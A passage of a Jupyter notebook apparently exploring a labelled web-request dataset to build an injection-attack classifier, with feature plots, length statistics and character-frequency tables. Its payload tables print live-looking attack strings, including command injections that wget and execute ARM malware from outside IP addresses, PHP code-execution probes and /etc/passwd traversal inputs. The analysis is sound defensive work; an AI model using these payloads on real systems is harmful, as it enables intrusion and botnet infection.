sql_keyword_count,19504.0,2.080906,1.712242,0.000000,1.000000,2.000000,3.000000,10.00000
shell_keyword_count,19504.0,0.564500,0.804376,0.000000,0.000000,0.000000,1.000000,5.00000
code_keyword_count,19504.0,1.319524,2.283711,0.000000,0.000000,1.000000,1.000000,13.00000




In [14]:
fig, axes = plt.subplots(3, 3, figsize=(18, 14))
parameter_features = [
    "parameter_length",
    "parameter_count",
    "parameter_special_char_count",
    "parameter_digit_count",
    "parameter_alpha_count",
    "parameter_entropy",
    "sql_keyword_count",
    "shell_keyword_count",
    "code_keyword_count",
]

for ax, feature in zip(axes.flatten(), parameter_features):
    sns.histplot(df[feature], bins=30, kde=True, ax=ax, color="#ff7f0e")
    ax.set_title(feature.replace("_", " ").title())

save_current_fig("parameter_feature_histograms.png")
plt.show()

C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\3521050080.py:5: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="magma")
C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\3521050080.py:5: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="magma")
C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\3521050080.py:5: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="magma")
C:\Users\eEren\AppData\Local



,mean,median,max
label_name,,,
OS Command Injection,215.197205,210.0,607
Code Injection,209.053224,202.0,613
SQL Injection,208.788893,198.0,613
Normal,120.937115,110.0,467


Do attack payloads tend to be longer? True
Class with the longest single payload: SQL Injection


In [15]:
fig, axes = plt.subplots(2, 2, figsize=(16, 12))
comparison_features = ["parameter_length", "parameter_special_char_count", "parameter_digit_count", "parameter_entropy"]

for ax, feature in zip(axes.flatten(), comparison_features):
    sns.boxplot(data=df, x="label_name", y=feature, ax=ax, palette="magma")
    ax.set_title(f"{feature} by label")
    ax.tick_params(axis="x", rotation=20)

save_current_fig("parameter_feature_boxplots.png")
plt.show()

payload_length_by_class = df.groupby("label_name")["parameter_length"].agg(["mean", "median", "max"]).sort_values("mean", ascending=False)
display(payload_length_by_class)
print("Do attack payloads tend to be longer?", df[df["label"] != 0]["parameter_length"].mean() > df[df["label"] == 0]["parameter_length"].mean())
print("Class with the longest single payload:", df.loc[df["parameter_length"].idxmax(), "label_name"] if len(df) else "N/A")

## 8. Attack Payload Investigation

Focus on the attack classes only and inspect frequent, long and short payloads. This step is useful for understanding the patterns the model will later need to recognize.

In [16]:
attack_df = df[df["label"].isin(ATTACK_LABELS)].copy()

top_50_common_payloads = attack_df["parameter"].value_counts().head(50).rename_axis("parameter").to_frame("count")
top_50_longest_payloads = attack_df.nlargest(50, "parameter_length")[["label_name", "url", "parameter", "parameter_length"]]
top_50_shortest_payloads = attack_df.nsmallest(50, "parameter_length")[["label_name", "url", "parameter", "parameter_length"]]

display(top_50_common_payloads)
display(top_50_longest_payloads)
display(top_50_shortest_payloads)

,count
parameter,
"<?php exec('echo jrpkjls7ygpnhzkjcebd',$colm);echo join(""",1020
username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=6eac0e2d5f&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,434
profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafael&user_registration_user_login=rafael&user_registration_last_name=gracia&user_registration_user_email=rafael%40gmail.com&_wpnonce=5c88b58e23&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2Fedit-profile%2F&save_account_details=Save+changes&action=save_profile_details,317
comment=&submit=Post+Comment&comment_post_ID=56&comment_parent=0,271
"<?xml version=""1.0""?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>[login]</string></value><value><string></string></value></data></array></value></data></array></value></member></struct></value></data></array></value></param></params></methodCall>",25
"<?php echo md5(""blahblah"") ;exit(0);?>",25
profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafael&user_registration_user_login=rafael&user_registration_last_name=gracia&user_registration_user_email=rafael%40gmail.com&_wpnonce=275b14d8fd&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2Fedit-profile%2F&save_account_details=Save+changes&action=save_profile_details,8
username=rafael&password=espa%C3%B1a01&user-registration-login-nonce=b1dc848c61&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2F&login=Login&redirect=,8
remote_submit_Flag=1&remote_syslog_Flag=1&RemoteSyslogSupported=1&LogFlag=0&remote_host=%3bcd+/tmp;wget+http://152.44.44.68/d/xd.arm7;chmod+777+xd.arm7;./xd.arm7;rm+-rf+xd.arm,6


,label_name,url,parameter,parameter_length
9437,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=%22%3Bprint%28chr%28122%29.chr%2897%29.chr%28112%29.chr%2895%29.chr%28116%29.chr%28111%29.chr%28107%29.chr%28101%29.chr%28110%29%29%3B%24var%3D%22&profile-default-image=http%3A%2F%...,613
9439,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=%27%3Bprint%28chr%28122%29.chr%2897%29.chr%28112%29.chr%2895%29.chr%28116%29.chr%28111%29.chr%28107%29.chr%28101%29.chr%28110%29%29%3B%24var%3D%27&profile-default-image=http%3A%2F%...,613
18139,Code Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=%22%3Bprint%28chr%28122%29.chr%2897%29.chr%28112%29.chr%2895%29.chr%28116%29.chr%28111%29.chr%28107%29.chr%28101%29.chr%28110%29%29%3B%24var%3D%22&profile-default-image=http%3A%2F%...,613
18141,Code Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=%27%3Bprint%28chr%28122%29.chr%2897%29.chr%28112%29.chr%2895%29.chr%28116%29.chr%28111%29.chr%28107%29.chr%28101%29.chr%28110%29%29%3B%24var%3D%27&profile-default-image=http%3A%2F%...,613
9450,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=%22%...,607
9452,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=%27%...,607
9454,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,607
9456,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,607
9458,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,607
9460,SQL Injection,/blog/index.php/my-account/edit-profile/,profile-pic-url=&profile-default-image=http%3A%2F%2F1.gravatar.com%2Favatar%2F14d5b5665405f8accb4e5f2fa274cd44%3Fs%3D96%26d%3Dmm%26r%3Dg&profile-pic=test_file.txt&user_registration_first_name=rafa...,607


,label_name,url,parameter,parameter_length
17550,Code Injection,/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php,"<?=md5(""phpunit"")?>",19
12972,OS Command Injection,/,"<?xml version=""1.0"" encoding=""UTF-8""?>",38
19331,Code Injection,/?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19332,Code Injection,/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%6...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19333,Code Injection,/php4?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19334,Code Injection,/php5?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19335,Code Injection,/php.cgi?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19336,Code Injection,/php4.cgi?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19337,Code Injection,/php5.cgi?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+...,"<?php echo md5(""blahblah"") ;exit(0);?>",38
19338,Code Injection,/cgi/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%...,"<?php echo md5(""blahblah"") ;exit(0);?>",38


In [17]:
example_payloads = (
    attack_df.groupby("label_name", group_keys=False)
    .apply(lambda group: group[["url", "parameter", "request_type"]].head(5))
)
display(example_payloads)

C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\3390374489.py:3: DeprecationWarning: DataFrameGroupBy.apply operated on the grouping columns. This behavior is deprecated, and in a future version of pandas the grouping columns will be excluded from the operation. Either pass `include_groups=False` to exclude the groupings or explicitly select the grouping columns after groupby to silence this warning.
  .apply(lambda group: group[["url", "parameter", "request_type"]].head(5))


,url,parameter,request_type
17550,/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php,"<?=md5(""phpunit"")?>",POST
17551,/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input,<?php system('echo NmapCVEIdentification');die(); ?>,POST
17552,/blog/index.php/my-account/edit-password/,password_current=%3C%21--%23EXEC+cmd%3D%22ls+%2F%22--%3E&password_1=sWvvTlQ1&password_2=sWvvTlQ1&_wpnonce=b9dad6a8b5&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2Fedit-password%2F&save_chang...,POST
17553,/blog/index.php/my-account/edit-password/,password_current=%22%3E%3C%21--%23EXEC+cmd%3D%22ls+%2F%22--%3E%3C&password_1=!PZPgpdn&password_2=!PZPgpdn&_wpnonce=b9dad6a8b5&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2Fedit-password%2F&s...,POST
17554,/blog/index.php/my-account/edit-password/,password_current=tNCEQiU&password_1=%3C%21--%23EXEC+cmd%3D%22ls+%2F%22--%3E&password_2=tNCEQiU&_wpnonce=b9dad6a8b5&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2Fedit-password%2F&save_change_...,POST
12971,/cgi-bin/ViewLog.asp,remote_submit_Flag=1&remote_syslog_Flag=1&RemoteSyslogSupported=1&LogFlag=0&remote_host=%3bcd+/tmp;wget+http://45.95.168.230/taevimncorufglbzhwxqpdkjs/Meth.arm7;chmod+777+Meth,POST
12972,/,"<?xml version=""1.0"" encoding=""UTF-8""?>",POST
12973,/blog/index.php/my-account/edit-password/,password_current=%2Fetc%2Fpasswd&password_1=ZWuAr!&password_2=ZWuAr!&_wpnonce=b9dad6a8b5&_wp_http_referer=%2Fblog%2Findex.php%2Fmy-account%2Fedit-password%2F&save_change_password=Save+changes&acti...,POST
12974,/blog/index.php/my-account/edit-password/,password_current=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&password_1=PWq*-kR#&password_2=PWq*-kR#&_wpnonce=b9dad6a8b5&_wp_http_referer=%2Fblog%2...,POST
12975,/blog/index.php/my-account/edit-password/,password_current=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&password_1=EUSc3H&password_2=EUSc3H&_wpnonce=b9dad6a8b5&_wp_http_referer=%2Fblog%2F...,POST


## 9. Character Frequency Analysis

Measure the frequency of suspicious punctuation characters across labels. These often separate attack payloads from benign traffic.

In [18]:
character_frequency = build_character_frequency(df, "parameter")
display(character_frequency)

most_frequent_chars = character_frequency.drop(columns=["label"]).sum().sort_values(ascending=False)
display(most_frequent_chars.rename("total_frequency").to_frame())

,',"""",;,|,&,(,),<,>,=,%,$,#,*,/,\,label
label_name,,,,,,,,,,,,,,,,,
Normal,0,0,0,0,12664,0,0,0,0,15697,8767,40,47,37,0,0,0
SQL Injection,0,0,0,0,57206,0,0,0,0,66400,81583,693,648,646,0,0,1
OS Command Injection,1026,517,544,0,24748,1026,513,514,1,28592,48797,778,297,290,51,0,3
Code Injection,1028,635,565,0,8291,1079,566,2325,1812,9605,25233,596,88,102,875,0,4


,total_frequency
%,164380
=,120294
&,102909
<,2839
$,2107
(,2105
',2054
>,1813
"""",1152
;,1109




,variance_across_labels
%,9.984339e+08
=,6.491509e+08
&,4.888473e+08
<,1.218280e+06
>,8.205342e+05
(,3.697202e+05
',3.515770e+05
/,1.846190e+05
"""",1.129127e+05
$,1.108289e+05


In [19]:
plt.figure(figsize=(14, 6))
sns.heatmap(character_frequency.drop(columns=["label"]), annot=True, fmt=".0f", cmap="YlOrRd")
plt.title("Character Frequency Heatmap by Label")
plt.xlabel("Character")
plt.ylabel("Label")
save_current_fig("character_frequency_heatmap.png")
plt.show()

distinctive_characters = character_frequency.drop(columns=["label"]).var().sort_values(ascending=False).head(10)
display(distinctive_characters.rename("variance_across_labels").to_frame())

## 10. URL and Parameter Length by Class

Directly compare the main size-based features across classes using boxplots and violin plots.

C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\2506328452.py:3: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y="url_length", ax=axes[0, 0], palette="Blues")
C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\2506328452.py:7: FutureWarning: 

